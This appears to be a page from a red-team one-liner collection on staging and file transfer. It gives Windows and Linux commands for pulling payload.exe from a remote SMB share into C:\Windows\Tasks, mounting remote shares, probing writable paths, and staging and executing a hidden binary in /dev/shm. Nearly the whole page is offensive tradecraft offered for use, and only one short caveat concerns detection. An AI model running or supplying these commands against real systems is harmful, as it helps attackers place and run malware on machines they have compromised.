

repository: asifnawazminhas/awesome-offensive-oneliners · page: red-team/staging-file-transfer/index.html · generator: mkdocs · copyright: Copyright © Asif Nawaz Minhas

# Staging & File Transfer

Short staging and non-HTTP file-transfer helpers.

<div class="ol-section-kicker"><span>RT</span><strong>Staging</strong></div>

## SMB copy to Windows Tasks

```cmd
copy \\<HOST>\share\payload.exe C:\Windows\Tasks\payload.exe
```

**Tool:** SMB · **Platform:** Windows · **Tags:** SMB, File Transfer, Staging · **Context:** User · **Noise:** Moderate

## Mount SMB share with PowerShell

```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\<HOST>\share
```

**Tool:** PowerShell · **Platform:** Windows · **Tags:** SMB, File Transfer · **Context:** User · **Noise:** Moderate

## Test Windows Tasks write access

```powershell
$p='C:\Windows\Tasks\ol-test.tmp';'test'|Set-Content $p;Get-Item $p;Remove-Item $p
```

**Tool:** PowerShell · **Platform:** Windows · **Tags:** Staging, Writable Path · **Context:** User · **Noise:** Moderate

## Stage executable in /dev/shm

```bash
install -m 700 <FILE> /dev/shm/.p && /dev/shm/.p
```

**Tool:** install · **Platform:** Linux · **Tags:** tmpfs, Staging, Execution · **Context:** User · **Noise:** Moderate

## Check /dev/shm mount

```bash
findmnt /dev/shm -o TARGET,FSTYPE,OPTIONS
```

**Tool:** findmnt · **Platform:** Linux · **Tags:** tmpfs, Mounts · **Context:** User · **Noise:** Moderate

!!! note "Path visibility"
    `C:\Windows\Tasks` and `/dev/shm` are familiar investigation locations. Treat them as convenient staging paths, not stealth guarantees.

---

**Related:** [Overview](./) · [Reverse Shells](reverse-shells.md) · [Tunneling](tunneling.md)
